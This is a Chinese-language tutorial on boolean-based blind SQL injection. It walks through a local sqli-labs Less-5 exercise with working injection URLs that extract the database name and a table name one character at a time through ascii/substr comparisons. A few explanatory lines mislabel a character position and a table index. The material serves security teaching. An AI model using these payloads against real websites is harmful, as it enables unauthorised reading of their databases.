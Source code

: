 # 
```
SQL注入之布尔盲注
```



### 1.什么是布尔盲注？

Web的页面的仅仅会返回True和False。那么布尔盲注就是进行SQL注入之后然后根据页面返回的True或者是False来得到数据库中的相关信息。

返回False时：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/a9e2622c9ab4426eb95db68e9bc76ae2.png)

返回True时：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/61d6681f946648d39f5c46ce47d0285a.png)


### 2.如何进行布尔盲注？

注入流程：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/65e35005c1d24fb085b94bf42339e5df.png)



### 3.靶场案例演示：


1.** 猜解数据库的名字**

`http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))>115--+ 非正常

http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))>116--+ 非正常

http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))=115--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),2,1))=101--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),3,1))=99--+  正常`


如此就得到了

第一个字符的ASCII码为115解码出来为“s”

第二个字符的ASCII码为101解码出来为“e”

第二个字符的ASCII码为99解码出来为“c”

依次类推出数据库的名字为“security”


2.**猜解表明名**

```
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+ 
正确
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))=101--+ 正确
```


注：select下的limit是第几个表。

　　substr下的是截取的表内容。

当前库下（注入点连接的数据库）第一个表ASCII码为**114  解码为r**

当前库下（注入点连接的数据库）第一个表ASCII码为**101  解码为e**

**当前库下（注入点连接的数据库）第一个表ASCII码为....**  解码为** referer**

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/02a961e381134335aec168900f9974ad.png)



### 总结归纳：

盲注分为三种：

**1.[布尔型盲注](http://www.cnblogs.com/xishaonian/p/6103505.html%20)：** 根据页面返回的真假来判断的即为**布尔型盲注**

**2.[时间型盲注](http://www.cnblogs.com/xishaonian/p/6113965.html)：** 根据页面返回的时间来判断的即为**时间型盲注**

**3.报错型盲注** ：根据页面返回的对错来判断的即为**报错型盲注**

